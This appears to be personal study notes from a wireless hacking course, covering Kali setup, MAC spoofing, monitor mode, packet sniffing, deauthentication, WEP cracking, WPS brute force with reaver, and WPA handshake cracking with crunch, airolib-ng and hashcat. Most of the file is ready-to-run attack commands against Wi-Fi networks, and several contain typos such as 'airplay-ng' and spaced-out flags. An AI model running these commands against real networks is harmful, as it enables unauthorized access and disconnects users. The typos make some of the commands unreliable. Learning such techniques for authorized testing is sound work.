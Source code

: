 
**INSTALLATION**
install link for kalilinux - https://zsecurity.org/download-custom-kali/
unzip it
Go to vm ware, file -open -this unzipped file
check settings 
run <br>

**LINUX BASIC COMMANDS:**
- pwd
- ls    ls -l
- cd   cd ..
- man ls (or )man cd  ls --help -> helps in detail
- tab -> auto complete
- apt-get    -> donwload or install progs (or) apps
- apt-get update
- apt-get install app_name -y
**NEEDED APPS:**    (apt-get install terminator)
terminator  - spliting option in terminal
**WEBSITES:**
explainshell.com


## PRE CONNECTION SETUP KNOWLEDGE

#### wireless adapter with props:- 
- monitor mode
- packet injection
- AP mode
- Recommended brand: Atheros AR9271, Realtek RTL8812AU

before connecting network interface
cmd- **ifconfig**
eth0 and lo
after connecting to machine
cmd- **iwconfig**
eth0 lo and wlan0

MAC-media access control     (network device address )    which will be same in all computers
permanent, physical, unique    (assigned by manufacturer to network interafces like wifi, wifi card,wifi adapters,wired)
contains source mac and destination mac
change MAC address to become anonymous    
Uses: Bypass filter, anonymity

**Network Interfaces**
- network interface – any device allowing us to connect to a network
- inside eth0 or wlan0 or lo ether ____________  is mac address in managed mode, ether is not shown and unspec is shown in monitor mode(first 12 digits without in monitor mode
- ifconfig -> show all interfaces
- iwconfig → show all wireless network interfaces

#### Change MAC address
> ifconfig wlan0 down    (for disabling before the change process) <br>
> ifconfig wlan0 hw ether 00:11:22:33:44:55     (after restart get resetted)<br>
> ifconfig wlan0 up <br>

- device1 MAC accept data only If the device2 have its destination MAC as  device1   
- default mode for network devices is managed mode   (captures packets only from destination mac address )
- Eg:source mac address: 00:11:22:3
     destination mac address : 00:55:34:56
-can do monitor using monitor mode    (captures packets from any destination address almost all)
> iwconfig wlan0 down <br>
> iwconfig wlan0 mode monitor <br>
> iwconfig wlan0 up <br>
- attacks don't need any internet connection


### PACKET SNIFFING
**aircrack-ng**
> airodump-ng mon0      → shows the packets
most of the wifi adapter only communicates with 2.5ghz frequency

ESSID      name
BSSID      mac_address
PwR    signal strength
#/s      data collected per second
CH     works on channel
MB    maximum speed
ENC   encryption mode
AUTH   authentication used
airodump-ng  --band a mon0            shows 5G networks tooo
airodump-ng  -- bssid  11:21:G6:14   - -channel  2  - - write  filename   mon0 
ctr C     ( to stop)


### Deauthentication 
To pretend as client having its mac address
To pretend like router having its mac address and disconnecting all networks
**airplay-ng**
>airplay-ng  --deauth  100000000 -a target_router_mac_address  -c client_mac_address  mon0   (mac_address info is taken from airodump-ng)
>ctr  C    to stop

## GAINING ACCESS: 

### WEP CRACKING
- The client encrypts the data with a unique key and sends in air to the router
- This router decrypts the data using same key.
- Initial vector + passsword =  keystream
- keystream + “this is the message”  →  cnu3dhubd   (encoded)
- router always have the key but not Initial vector(IV)
- IV is only 24bits so it repeats it again and again without creating unique key

Methods
- airodump-ng   to capture all packets/IVs
- aircrack-ng      to analyze the IVs and crack the key <br>
> airodump-ng  --bssid  target_mac  --channel  2  --write  filename   mon0    <br>
- filename.cap is the file <br>
> aircrack-ng filename.cap 
- prompts key found!  23:42:23:A2
- put the password in wifi as 234223A2  done

#### Fakeauth attack
a for accknowledge must do before all attacks
>aireplay-ng - -fakeauth 0 -a target_mac -h my_mac

#### Arp request reply attack
if the router or wifi is not having more data passed, it can't be cracked,so need to inject more packages with aireplay <br>
>aireplay-ng - -fakeauth 0 -a target_mac -h my_mac   (ACK for telling we are connecting to the netw interface ) <br>
>airodump-ng  - - bssid  target_mac  - -channel  2  - - write  file_name  mon0 <br>
>aireplay-ng  - -arpreplay -b target_mac -h my_mac mon0        check data value in info <br>
>aircrack-ng filename.cap <br>
or 

#### Korek ChopChop Attack   (refer somewhere) <br>
or
#### Fragmentation Attack (refer somewhere) <br>

### WPA AND WPA2 CRACKING

- wpa and wpa2 have the wps push button enabled or disable which is useful in cracking.
- This wps feature can be found by
> wash  - - interface mon0
- Lck   tells locked or not
- it may fail if the target router has PBC(push button auth) or wps disabled

>reaver - -bssid  target_mac - -channel 1 - -interface mon0 -vvv - -no-associate <br>
paralleley add the down cmd <br>
>aireplay-ng - -fakeauth 0 -a target_mac -h my_mac <br>

- when PBC(push button auth) or wps disabled, use the following method <br>
>airplay-ng  - -deauth  4 -a target_router_mac_address  -c client_mac_address  mon0   (use –deauth 4 so that client don't identify they are disconnected)

**Create word list:**
crunch
> crunch 6 8 abctd123$@ -o pass.txt
- 6 min combinations
- 8 max combinations
- abctd123$@ combinations to use 

>aircrack-ng handshake.cap  -w pass.txt
done :)

**Pairwise Master Key** from word list (faster than previous)
>airolib-ng test-db  - -import password pass.txt
- create a text file with essid 
>airolib-ng test-db  - -import essid essid.txt
>airolib-ng test-db –batch
- done :)

>aircrack-ng -r test-db handshake.cap  
done :)

**Hashcat** (use GPU - fastest cracking ) in windows      
- download converted file of .cap to .hccapx and add it in hashcat dir
- add pass.txt in hashcat dir
>hashcat64.exe -I          shows cpu and gpu info <br>
>hashcat64.exe -m 2500 -d 1 handshake.hcapx pass.txt <br>
- m - wpa/wpa2 hash 
- d -  which device to use

